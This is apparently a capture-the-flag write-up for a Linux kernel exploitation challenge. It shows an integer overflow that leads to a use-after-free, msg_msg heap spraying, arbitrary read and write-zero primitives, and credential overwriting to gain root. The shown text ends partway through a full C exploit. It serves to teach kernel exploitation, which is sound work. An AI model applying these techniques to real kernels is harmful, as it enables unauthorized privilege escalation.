



# TeamItaly CTF 2022

## FamilyRecipes (1 solve)

### Platform Description

I always think of the good old days, when my grandma used to cook me all my favourite recipes. I've spent years storing them in randomly placed post-its; now I've written a cool tool for my family that can store all our recipes in our home computer! Some of them are protected... I won't share my new secret pesto recipe, not even with them.

Warning! For incredibly higher security, the data is not saved on the disk: if you think your family recipes are in danger, just unplug your home computer and no one will ever steal them!

Get root and read the flag at /flag.txt

This is a remote challenge, you can connect to the service with:

`nc familyrecipes.challs.teamitaly.eu 15011`

Author: @giulia

### Description

This is a Linux kernel exploitation challenge, presented as a custom Linux kernel module. The module gives the users the ability to save some recipes inside the kernel memory and interact with them. Every recipe is saved inside the kernel memory as a struct `recipe`:

```c
typedef struct recipe {
    char *buf;
    unsigned long bufsize;
    unsigned int public;
    uid_t owner_uid;
} recipe_t;
```

The fields `buf` and `bufsize` will contain the recipe and its size respectively; the field `public` will determine if the recipe is readable or not from the other users and the field `owner_uid` will contain the uid of the recipe owner, who is the user that created it.

The module contains a global variable `manager` which contains an array of pointers to `recipe` struct, which will be the list of recipes, and the number of currently saved recipes:

```c
typedef struct recipe_manager {
    recipe_t **recipes_list;
    unsigned char num_of_recipes;
} recipe_manager_t;

recipe_manager_t manager;
```

The user has 5 different available commands to interact with the recipes:

```c
#define CMD_ALLOC 1337      // Write a new recipe
#define CMD_DELETE 1338     // Delete a recipe (requires recipe owner)
#define CMD_READ 1339       // Read a recipe (requires recipe owner if not public)
#define CMD_INFO 1340       // Read recipe info (index, bufzise, public, owner_uid)
#define CMD_TOGGLE 1341     // Toggle public field (requires recipe owner)
```

<!-- Short description on how to interact with the module through ioctl calls -->

---

### Goal

> Note: this section will present the common goals of a kernel exploitation challenge and the usual methods/techniques to get to them. So, if you're already comfortable with kernel pwning, then you could easily skip this section and jump to the next one [here](#kernel-configuration).

In the usual userland exploitation challenge scenario, the goal of the user is to pop a shell. In a kernel exploitation challenge the most common goal is a bit different: the user starts being already inside a shell with arbitrary code execution. What they need to do is to escalate privileges or to execute code in privileged mode. The flag could be, like in this challenge, stored in the file system, readable only with root privileges.

The following three are the most common methods for escalating privileges or gain privileged execution:

1. Overwriting `modprobe_path`.
2. Overwriting the data structure that holds `uid`, `gid`, `euid`, (...), of the current process and set them to 0.
3. Executing `commit_creds(prepare_kernel_cred(NULL))`.

Whether to use one or the others can depend on what the user is able to do after exploiting the vulnerabilities and which kind of primitives they have.

#### Overwriting `modprobe_path`

`modprobe` is a Linux program that is executed when a new module is added/removed from the kernel. Its default path is `/sbin/modprobe` and it's stored in a kernel global variable, under the symbol `modprobe_path`, inside a _writable_ page. When the user executes a file with an unknown filetype (i.e. when the magic header of the file is unknown to the system), the kernel will try to find a binary handler suitable for the unknown header by trying to load a module named `binfmt-%04x`, where the format specifier is replaced by the third and fourth byte of the binary file (see [here](https://elixir.bootlin.com/linux/latest/source/fs/exec.c#L1746)). This will cause the function `call_modprobe` to be called (see [here](https://elixir.bootlin.com/linux/latest/source/kernel/kmod.c#L170)). Then, the modprobe executable will be executed _with root privileges_.

Given that the page where the modprobe global variable is stored is writable, if the user manages to overwrite the modprobe path with the path of a custom executable, and then executes a file with a dummy header, the system will execute the user's custom file as a userland program _with root privileges_.

#### Overwriting the `cred` structure

The kernel needs to store information about each of its tasks. This information is saved using a structure, named `task_struct`, and each of the kernel tasks owns its own instance of this structure.

The tasks are stored as a linked list: a global kernel variable, named `init_task` points to the first one and each of the tasks contains a pointer to the next one in the list.

Among all the information, each task structure holds a pointer to a `cred` struct, which contains all the credentials information for the associated process (e.g. uid, gid, euid, egid, ...).

The idea behind this exploitation method is to use a read primitive to traverse the tasks list starting from `init_task` and stopping when the current process' task is found. Then, a write primitve can be used to overwrite the credentials stored inside the `cred` struct with 0 and become root.

#### Executing `commit_creds(prepare_kernel_cred(NULL))`

This method consists in hijacking the control flow of the program in order to execute the code `commit_creds(prepare_kernel_cred(NULL))` which locates the current process' task structure and overwrites the credentials structure with a new one that holds root privileges. This is basically an automatic way of doing the same thing the previous method does.

---

### Kernel Configuration

This challenge was built using the 5.19.0 version of the Linux kernel, which was the last available stable version when the challenge was created. When building it, some configuration were updated. Here the most relevant ones:

```bash
scripts/config --enable SLAB_FREELIST_HARDENED

# Modprobe trick mitigation
scripts/config --enable STATIC_USERMODEHELPER
scripts/config --set-str STATIC_USERMODEHELPER_PATH /sbin/usermode-helper
```

The first configuration hardens the freelist pointer by performing some obfuscation on it ([source](https://elixir.bootlin.com/linux/latest/source/mm/slub.c#L318)).

With the last two configurations the `modprobe_path` variable will still be writable, but it will not be used anymore. The kernel will just use the static one taken from the config, which is read-only.

---

### Vulnerabilities

This challenge can be solved by taking advantage of two different vulnerabilities: an integer overflow on the field `recipe_manager.num_of_recipes` and a Use-After-Free on the field `recipe_manager.recipes_list`.

#### Integer Overflow

The field `num_of_recipes` is declared as an `unsigned char`, and it's incremented by one every time a new recipe is added to the recipe manager. This means that its value can be set to 0 by adding 256 new recipes.

#### Use-After-Free

The Use-After-Free is triggered by the behavior of the `krealloc` function. From the [docs](https://manpages.debian.org/wheezy-backports/linux-manual-3.16/krealloc.9.en.html):

```c
NAME
    krealloc - reallocate memory. The contents will remain unchanged.
SYNOPSIS
    void * krealloc(const void * p, size_t new_size, gfp_t flags);
ARGUMENTS
    p - object to reallocate memory for.
    new_size - how many bytes of memory are required.
    flags - the type of memory to allocate.
DESCRIPTION
    The contents of the object pointed to are preserved up to the lesser of the new and old sizes.
    If p is NULL, krealloc behaves exactly like kmalloc. If new_size is 0 and p is not a NULL pointer,
    Sthe object pointed to is freed.
```

The description clearly states that the object will be freed if the `new_size` param is set to 0 and the pointer `p` is not `NULL`. This can lead to a Use-After-Free vulnerability since the challenge doesn't perform any check on the `new_size` parameter.

---

### Solution

#### Obtaining the Use-After-Free

Let's start focusing on the following snippet of code, which is the one executed when the user uses the `CMD_ALLOC` for allocating a new recipe:

```c
switch (cmd) {
    case CMD_ALLOC: {

        [...]

        manager.num_of_recipes++;

        if (manager.recipes_list == NULL) {
            tmp = kmalloc(sizeof(recipe_t *) * manager.num_of_recipes, GFP_KERNEL);
        } else {
            tmp = krealloc(manager.recipes_list, sizeof(recipe_t *) * manager.num_of_recipes, GFP_KERNEL);
        }

        if (ZERO_OR_NULL_PTR(tmp)) {
            printk(KERN_INFO "[CHALL] [ERR] (Re)allocation failed\n");
            manager.num_of_recipes--;
            goto error;
        }

        [...]
```

The first step for exploiting this challenge consists in triggering the integer overflow by adding 256 new recipes. This will increment the variable `manager.num_of_recipes` by one for 256 times, which means bringing it to 0.

The just overflowed value is a multiplier in the `new_size` parameter passed to the `krealloc` function call, which should reallocate the space dedicated to the recipes pointers in order to fit the new one; the `new_size` parameter will be then equal to 0. The `p` parameter of the function call is the variable `manager.recipes_list`, which is not `NULL` since it's the pointer to the memory already allocated for the old 255 recipes. To make the corrispondences clearer, here is the signature and call of the `krealloc` function:

```c
// Signature
krealloc(const void * p, size_t new_size, gfp_t flags);
// Call
krealloc(manager.recipes_list, sizeof(recipe_t *) * manager.num_of_recipes, GFP_KERNEL);
```

This implies, according to the documentation, that the involved memory area will be freed. Nevertheless, the variable `manager.recipes_list` will still contain the address of that area, hence the Use-After-Free vulnerability.

In addition, since the `krealloc` function returns ZERO_PTR after freeing the memory area, the final `if` clause will be executed and the variable `manager.num_of_recipes` will be decremented, meaning it will come back from 0 to 255. This is necessary: for all the other operations (`CMD_DELETE`, `CMD_READ`, `CMD_INFO`, `CMD_TOGGLE`), the challenge ensures that the index of the accessed recipe is inside the range `[0, manager.num_of_recipes)` , so it would have been impossible to perform any operation with a 0 value on that variable.

Now it's necessary to find a way to exploit the Use-After-Free vulnerability: the intended solution for this challenge uses the [second](#overwriting-the-cred-structure) method described in the Goal section.

#### Obtaining the primitives

The variable `manager.recipes_list` still holds the pointer to the freed memory area. The freed area currently contains an array of 255 pointers, each of them pointing to a `recipe` structure. The challenge provides different commands that interact with those structures. If one of the elements of the array is changed to point to some other location in the kernel memory, the commands performed afterwards will actually act on that location, instead of acting over the originally-pointed recipe structure. The useful commands are `CMD_INFO` and `CMD_TOGGLE`, that will be used to obtain arbitrary read and arbitrary write of 0. The next step consists in understanding how to corrupt the freed memory in order to obtain those primitives and develop the exploitation.

##### Kernel memory layout and spraying

The Linux kernel organizes memory in so-called slab caches. The slab allocator provides two main classes of caches:

- The special-purpose caches are initialized to allocate only a particular kind of data structure. For example, for security reasons, all the credentials structures (`cred` struct) are allocated inside a dedicated special-purpose cache named `cred_jar`.

- The general-purpose caches are used for any other kind of allocation, and they mostly have a 2-power fixed buffer size, which represents the maximum allocation size that the cache can satisfy. The cache name represents its buffer size in bytes. Examples are `kmalloc-8`, `dma-kmalloc-8`, `kmalloc-16`, `dma-kmalloc-16`, `kmalloc-32`, and so on.

The dedicated file `/proc/slabinfo` contains details about all the slab caches on the system. More details about the slab allocator can be found [here](https://hammertux.github.io/slab-allocator).

A userland program can perform a huge set of operations, involving or not the kernel intervention. Some of these operations trigger the kernel allocation of some specific structures inside its memory. For example, when a userland process opens an extremely simple virtual file that uses `single_open` (e.g. `/proc/self/stat`), the kernel allocates a structure called `seq_operations` inside the kernel memory, intended to hold pointers to useful functions to interact with the file. Also, when a userland program calls the `fork` function, a new child process is spawned and the corresponding kernel task is added to the kernel tasks list (see [here](#overwriting-the-cred-structure)), implying a new `task_struct` and a new `cred_struct` are allocated inside the kernel memory.

Depending on its type and size, each of these structures gets allocated in a different slab cache.

When the user holds a Use-After-Free vulnerability they can try to trigger the kernel allocation of some of these structures inside the freed memory area they control. Controlling the newly allocated kernel structures can lead to leaks, RIP control, read/write primitives. This technique is called kernel memory spraying.

##### The `msg_msg` structure

The Use-After-Free vulnerability is triggered when 255 recipes are already allocated; given that, the size of the the freed memory area can be computed as `255 * sizeof(recipe_t *) = 2040 bytes`, which means it will be inside the `kmalloc-2k` slab cache.

It's necessary to find a way to trigger the kernel allocation of a structure inside that cache, that we can use to corrupt the freed memory area. The `msg_msg` structure is pretty useful in this case, because its size can be arbitrarily decided by the user (the only constraint is `size > 48 bytes`).

This structure is used to store messages inside the Linux kernel to achieve inter-process communication, and its instances are stored inside the general-purpose slab caches. It contains a 48 bytes header (hence the constraint on the size), and then a variable sized message, chosen by the user:

```c
// Source: https://elixir.bootlin.com/linux/v4.19.98/source/include/linux/msg.h

struct msg_msg {
    struct list_head m_list;
    long m_type;
    size_t m_ts;        /* message text size */
    struct msg_msgseg *next;
    void *security;
    /* the actual message follows immediately */
};
```

Since the actual message is controlled by the user, the `msg_msg` structure can be placed in the `kmalloc-2k` cache by creating an instance with `976 bytes < message size <= 2000 bytes`, so that the sum of the header and the actual message sizes lies between the `kmalloc-1k` and `kmalloc-2k` buffer sizes. Here an example snippet that triggers such an allocation:

###

```c
#define MSG_SIZE 2040 - 48

// Prepare structure
struct {
    long mtype;
    char mtext[MSG_SIZE];
} msg;
msg.mtype = 1;
memset(msg.mtext, 0x41, MSG_SIZE - 1);
msg.mtext[MSG_SIZE] = 0;

// Post message - allocate msg_msg
int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
```

The picture below shows how the recipes list memory area looks like before calling the 256th `krealloc` (1), right after the call (2) and as soon as a `msg_msg` structure is allocated with 1992 bytes message, so that it will have the same dimension of the freed area, completely covering it.

<p align="center">
    
</p>

As shown in the picture, the memory area is filled with pointers to `recipe` structures. When the `krealloc` function frees the memory area, the user will still be able to access it using the pointer `manager.recipes_list`. Once the `msg_msg` struct gets allocated, the first 6 "slots" will be reserved for the struct header (48 bytes) and the user controlled data will begin from the 7th slot, up to the end of the chunk.

##### Read primitive

The `CMD_INFO` functionality is the one used to obtain an arbitrary read primitive. The following steps describe its flow of execution:

- The user sends a proper request to the module providing the index of the wanted recipe.
- The module accesses the `manager.recipes_list` array at the specified index and gets a pointer.
- The pointer is dereferenced and the module sends back to the user some of the fields of the `recipe` structure found at the pointed location (`bufize`, `public`, `owner_uid`).

The exploit created for this challenge relies on using the field `owner_uid`, which is an integer, to obtain an arbitrary 32-bit read primitive. This field is located at an offset of 0x14 bytes from the start of the recipe structure. When the `CMD_INFO` sends back to the user the `owner_uid` field, it's basically just sending whichever integer is found at `<struct_location>+0x14`.

```c
typedef struct recipe {
    char *buf;                    // <struct_location>+0x0
    unsigned long bufsize;        // <struct_location>+0x8
    unsigned int public;        // <struct_location>+0x10
    uid_t owner_uid;            // <struct_location>+0x14
} recipe_t;
```

Starting from the 7th, the pointers in the `manager.recipes_list` array can be arbitrarily chosen through the message content of the `msg_msg` structure. Setting one of the pointers of the list to point to `<desired_location>-0x14` will make the desired location align with the `owner_uid` field and the module will send back the integer found at that location when reading that field.

<p align="center">
    
</p>

Given this, the function `read_int` can be created modifying the code snippet above, inserting the desired address in the first 8 bytes of the message content and then executing the `CMD_INFO` on the recipe n. 6 (the first slot dedicated to the message content). After reading the obtained number, it's necessary to free the memory area to make it again available for subsequent reads. This is achieved by calling the function `msgrcv` that retrieves the last posted message and frees the allocated `msg_msg` structure:

```c
#define MSG_SIZE 2040 - 48
#define UID_OFF 0x14

unsigned int read_int(unsigned long where) {

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x14
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - UID_OFF;

    // Post message - allocate msg_msg
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Read
    dev_info(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

    return request.info.owner_uid;
}
```

A `read_long` primitive can be created by just combining two executions of the `read_int` primitive:

```c
unsigned long read_long(unsigned long where) {

    unsigned long p1, p2;
    p1 = read_int(where);
    p2 = read_int(where + 4);
    return p1 | (p2 << 32);
}
```

##### Write-0 primitive

The process to obtain a write primitive in order to write inside the credentials structure is pretty similar to the one just described.

The first difference is the command used, which this time is the `CMD_TOGGLE`. This command's purpose is to toggle the `public` field of a recipe structure, changing the visibility of the recipe content to the non-owner users. The following steps describe its flow of execution:

- The user sends a proper request to the module providing the index of the recipe they want to toggle.
- The module accesses the `manager.recipes_list` array at the specified index and gets a pointer.
- The pointer is dereferenced and the module checks if the `owner_uid` field is equal to the current process' uid.
- If not, it aborts the request. Otherwise, it toggles the public field setting it to 0/1.

The offset of the `public` field inside the recipe is 0x10; same as before, it's possible to write at a desired location by corrupting one of the pointers of the recipes list and making it point to `<desired_location-0x10>`. Here come the other differences from the read primitive: we cannot use the toggle command to write arbitrary content, but just for writing 0 or 1; the location cannot be arbitrary, because it must satisfy the `owner_uid` constraint, otherwise the module will just reject the toggle attempt. The picture above shows how the memory area needs to be aligned:

<p align="center">
    
</p>

So, in order to write a 0 or 1 at a desired location, the integer found at `<desired_location>+0x4` must be equal to the current process' uid.

The primitive for writing a 1 is not implemented since it's not useful to the challenge solving. The code snippet below implements the other primitive, following the same method used for the `read_int`:

```c
#define MSG_SIZE 2040 - 48
#define PUBLIC_OFF 0x10

void write_int_zero(unsigned long where) {

    // Check current value
    if (!read_int(where)) {
        // Already zero, nothing to do
        return;
    }

    // Check owner_uid constraint
    unsigned int value = read_int(where + 4);
    unsigned int curr = (unsigned int) getuid();
    if (value != curr) {
        printf("[*] Cannot write here: found value %u, current uid %u!", value, curr);
        exit(-1);
    }

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x10
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - PUBLIC_OFF;

    // Post message - allocate msg_msg
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Write
    dev_toggle(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

}
```

##### Traversing the tasks list and getting root

The next step consists in traversing the tasks list to find the current process' kernel task. These are the steps performed:

- The `init_task` variable is read and the address of the first kernel task is found.
- The `task_struct` at that location is accessed and the `pid` field of the structure is compared to the current process' one.
- If the pids don't match, the field `tasks.next` is read to find the address of the next task in the list and the flow goes back to the previous step.
- If the pids match, the field `cred` structure is accessed and its credentials are overwritten.

Since this challenge is build without KASLR enabled, the `init_task` address can be easily found reading the file `/proc/kallsyms`.

> Note: reading the file `/proc/kallsyms` requires root privileges, but you can change the challenge configuration in order to enter a root shell (and not a normal user shell) when running qemu. You need to decompress the file system, edit the file `/etc/init.d/rcS` and then compress it again. See [here](https://superuser.com/questions/734124/need-to-uncompress-the-initramfs-file).


It's necessary to know the offsets of all these fields inside the `task_struct` in order to get their addresses and read/overwrite them. The user can compute all the offsets by analyzing the kernel image to find them.  

##### Finding the struct fields' offsets

> Note: jump to the next section [here](#overwriting-the-credentials) if you already know how to find the offsets.

In order to do it, it's possible to uncompress the bzImage into an elf file and then analyse it with gdb. [This](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) can be used for the uncompression part, launching the following command:

```console
bash extract-vmlinux ./bzImage > kernel_image
```

The next step consists in analysing the kernel source code to find some functions that reference the struct fields needed. Then, disassembling the functions from the kernel elf, the offsets can be found in the assembly.  

For example, if we want to search for the offset of the `tasks` field inside the `task_struct` (which is the pointer to the next task), we can search for references to `init_task.tasks` and end up looking at the macro [`for_each_process`](https://elixir.bootlin.com/linux/latest/source/include/linux/sched/signal.h#L645`) which is called by [`clear_tasks_mm_cpumask`](https://elixir.bootlin.com/linux/latest/source/kernel/cpu.c#L967). The latter calls the first, which references the needed field:

```c
// for_each_process
#define for_each_process(p) \
	for (p = &init_task ; (p = next_task(p)) != &init_task ; )
```

```c
// clear_tasks_mm_cpumask
void clear_tasks_mm_cpumask(int cpu)
{
	struct task_struct *p;

	/*
	 * This function is called after the cpu is taken down and marked
	 * offline, so its not like new tasks will ever get this cpu set in
	 * their mm mask. -- Peter Zijlstra
	 * Thus, we may use rcu_read_lock() here, instead of grabbing
	 * full-fledged tasklist_lock.
	 */
	WARN_ON(cpu_online(cpu));
	rcu_read_lock();
	for_each_process(p) {
		struct task_struct *t;

		/*
		 * Main thread might exit, but other threads may still have
		 * a valid mm. Find one.
		 */
		t = find_lock_task_mm(p);
		if (!t)
			continue;
		arch_clear_mm_cpumask_cpu(cpu, t->mm);
		task_unlock(t);
	}
	rcu_read_unlock();
}
```

It's possible to use the file `/proc/kallsyms` again to find the address for this function, and then disassemble it using gdb or any other disassembling tool:

```console
/ # cat /proc/kallsyms | grep "clear_tasks_mm_cpumask"
ffffffff8106f090 T clear_tasks_mm_cpumask
```

```
Reading symbols from ./kernel_image...
(No debugging symbols found in ./kernel_image)
gef➤  x/100i 0xffffffff8106f090
0xffffffff8106f090:	push   rbp
   0xffffffff8106f091:	mov    ebp,edi
   0xffffffff8106f093:	push   rbx
   0xffffffff8106f094:	bt     QWORD PTR [rip+0x1a1fc34],rbp        # 0xffffffff82a8ecd0
   0xffffffff8106f09c:	jb     0xffffffff8106f0ff
🔴 0xffffffff8106f09e:	call   0xffffffff810dd3f0
   0xffffffff8106f0a3:	mov    rax,QWORD PTR [rip+0x17a5d6e]        # 0xffffffff82814e18
   0xffffffff8106f0aa:	lea    rbx,[rax-0x458]
   0xffffffff8106f0b1:	cmp    rax,0xffffffff82814e18
   0xffffffff8106f0b7:	je     0xffffffff8106f0f8
   0xffffffff8106f0b9:	mov    rdi,rbx
   0xffffffff8106f0bc:	call   0xffffffff81197140
   0xffffffff8106f0c1:	test   rax,rax
   0xffffffff8106f0c4:	je     0xffffffff8106f0e2
   0xffffffff8106f0c6:	mov    rdx,QWORD PTR [rax+0x4a8]
   0xffffffff8106f0cd:	lock btr QWORD PTR [rdx+0x3e8],rbp
   0xffffffff8106f0d6:	lea    rdi,[rax+0x838]
   0xffffffff8106f0dd:	call   0xffffffff81ca0580
   0xffffffff8106f0e2:	mov    rax,QWORD PTR [rbx+0x458]
   0xffffffff8106f0e9:	lea    rbx,[rax-0x458]
   0xffffffff8106f0f0:	cmp    rax,0xffffffff82814e18

```

The red circle line in the gdb output contains a call. Searching that address inside the `/proc/kallsyms` it's possible to see that it's the call to `rcu_read_lock`. After that call, the function starts looping and calling some addresses; searching for the called addresses in `/proc/kallsyms`, it's possible to see that these are the functions called inside the for loop generated by the macro.  

At the end, it compares the value of the register `rax` with the address `0xffffffff82814e18`. The first address. Looking at the macro source code, it's possible to see that the compare is actually made between the `init_task` and its next task. Since the `init_task` address is `0xffffffff828149c0`, then the compared address must be the address of the next pointer. This implies the offset for the next pointer is `0x458`, computed as the difference from those two addresses.

Reasoning in the same way, all the other needed offsets can be found. These are the kernel functions that can be looked at and disassembled to get the other offsets:
- pid offset from [`trace_initcall_start_cb`](https://elixir.bootlin.com/linux/latest/source/init/main.c#L1238)
- cred and uid offsets from [`__x64_sys_getresuid`](https://elixir.bootlin.com/linux/latest/source/kernel/sys.c#L734)
- cred and gid offsets from [`__x64_sys_getresgid`](https://elixir.bootlin.com/linux/latest/source/kernel/sys.c#L817)


There's another way to find the offsets, which consists in temporarily modifying the module to make it compute them using the `offsetof` macro as shown in the snippet below. Note that this solution is feasible in this challenge because the kernel was compiled without using the [struct layout randomization plugin](https://github.com/torvalds/linux/blob/master/security/Kconfig.hardening#L269), so the offsets are not randomized at compile time. If it was used, rebuilding the kernel and executing the snippet would have resulted in different and non usable offsets.

```c
static int __init init_dev(void) {
    printk(KERN_INFO "tasks offset wrt task_struct = 0x%lx\n", offsetof(struct task_struct, tasks));
    printk(KERN_INFO "cred offset wrt task_struct = 0x%lx\n", offsetof(struct task_struct, cred));
    printk(KERN_INFO "pid offset wrt task_struct = 0x%lx\n", offsetof(struct task_struct, pid));
    printk(KERN_INFO "uid offset wrt cred = 0x%lx\n", offsetof(struct cred, uid));
    printk(KERN_INFO "gid offset wrt cred = 0x%lx\n", offsetof(struct cred, gid));
    [...] // There's several other credentials inside the cred struct
    return 0;
}
```

The output can be read using the `dmesg` command:

```bash
[    2.430223] tasks offset wrt task_struct = 0x458
[    2.430264] cred offset wrt task_struct = 0x728
[    2.430276] pid offset wrt task_struct = 0x560
[    2.430294] uid offset wrt cred = 0x4
[    2.430315] gid offset wrt cred = 0x8
```

> Note: the `dmesg` command is disabled for the non-root users, but you can change this configuration by editing the file `/etc/init.d/rcS` as described above.


##### Overwriting the credentials
Once having the offsets, the very last step consists in understanding which ones of the credentials in the cred structure need to be overwritten. A usual and clean approach could be just overwriting them all in their definition order, but it would not work in this challenge, because the write primitive is constrained. Let's take a look at the `cred` structure:

```c
// Source code: https://elixir.bootlin.com/linux/latest/source/include/linux/cred.h#L110

struct cred {
    [...]

    kuid_t        uid;        /* real UID of the task */
    kgid_t        gid;        /* real GID of the task */
    kuid_t        suid;        /* saved UID of the task */
    kgid_t        sgid;        /* saved GID of the task */
    kuid_t        euid;        /* effective UID of the task */
    kgid_t        egid;        /* effective GID of the task */

    [...]
```

All the credentials have a value of 1000 when the challenge is started, and they're all stored inside variables of type `kuid_t/kgid_t` which are basically just structs wrapping unsigned integers. Given this, in order for a credential field to be overwritable, its following one must be equal to the current process' uid, which is the first credential in the structure.

- Before `uid` is overwritten, to overwrite the (i)th credential, the (i+1)th must be equal to 1000.
- After `uid` is overwritten, to overwrite the (i)th credential, the (i+1)th must be equal to 0.
- The `gid` field must be equal to 1000 when the `uid` field is overwritten.

In order to be able to read the root-protected flag file, it's not necessary to overwrite all the credentials. There's a lot of possible way to obtain the priviledges to read the flag. For example, overwriting first `euid` and then `uid` solves the problem and respects the constraints on the write primitive. 

The following code implements the tasks list traversing and the credentials overwriting:

```c
#define TASKS_OFF 0x458
#define CRED_OFF 0x728
#define PID_OFF 0x560
#define UID_OFF 0x4
#define EUID_OFF 0x14

// Iterate over Kernel tasks structures to find current process' credentials
printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());

printf("[*] Starting iteration on tasks list to find current process...\n");
unsigned long cur = INIT_TASK, cred;
unsigned int pid;
unsigned int this_pid = getpid();
while(1) {
    pid = read_int(cur + PID_OFF);
    if (pid == this_pid) {
        cred = read_long(cur + CRED_OFF);
        printf("[+] Found current process. Current pid = %u, cred struct = %p\n", pid, (void *) cred);
        printf("[+] cred struct uid = %u, cred struct eid = %u\n", read_int(cred + CRED_UID_OFF), read_int(cred + CRED_EUID_OFF));

        printf("[*] Overwriting euid...\n");
        write_int_zero(cred + CRED_EUID_OFF);

        printf("[*] Overwriting uid...\n");
        write_int_zero(cred + CRED_UID_OFF);
        break;
    }
    cur = read_long(cur + TASKS_OFF) - TASKS_OFF;
}

printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());
```

---

### Exploit

Here the full exploit script:

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <stddef.h>
#include <stdbool.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/msg.h>

#define CHALLENGE_DRIVER "/dev/chall"

// Commands
#define CMD_ALLOC 1337
#define CMD_DELETE 1338
#define CMD_READ 1339
#define CMD_INFO 1340
#define CMD_TOGGLE 1341

// Message buffer
#define MSG_SIZE 2040 - 48

// Init task address
#define INIT_TASK 0xffffffff828149c0

// Task structure offsets
#define TASKS_OFF 0x458
#define CRED_OFF 0x728
#define PID_OFF 0x560
#define CRED_UID_OFF 0x4
#define CRED_EUID_OFF 0x14

// Recipe structure offsets
#define PUBLIC_OFF 0x10
#define UID_OFF 0x14

typedef union request {

    struct alloc {
        unsigned long idx;
        char* buf;
        unsigned long bufsize;
        unsigned int public;
    } alloc;

    struct delete {
        unsigned long idx;
    } delete;

    struct read {
        unsigned long idx;
        char *buf;
        unsigned long bufsize;
    } read;

    struct info {
        unsigned long idx;
        unsigned long bufsize;
        unsigned int public;
        uid_t owner_uid;
    } info;

    struct toggle {
        unsigned long idx;
    } toggle;

} request_t;

static int fd;
static request_t request;

// Useful interaction functions
int dev_alloc(char *buf, unsigned int public) {
    request.alloc.buf = buf;
    request.alloc.bufsize = strlen(buf);
    request.alloc.public = public;
    return ioctl(fd, CMD_ALLOC, &request);
}

int dev_delete(unsigned long idx) {
    request.delete.idx = idx;
    return ioctl(fd, CMD_DELETE, &request);
}

int dev_read(unsigned long idx, char *buf, unsigned long bufsize) {
    request.read.idx = idx;
    request.read.buf = buf;
    request.read.bufsize = bufsize;
    return ioctl(fd, CMD_READ, &request);
}

int dev_info(unsigned long idx) {
    int res;
    request.info.idx = idx;
    res = ioctl(fd, CMD_INFO, &request);
    return res;
}

int dev_toggle(unsigned long idx) {
    request.toggle.idx = idx;
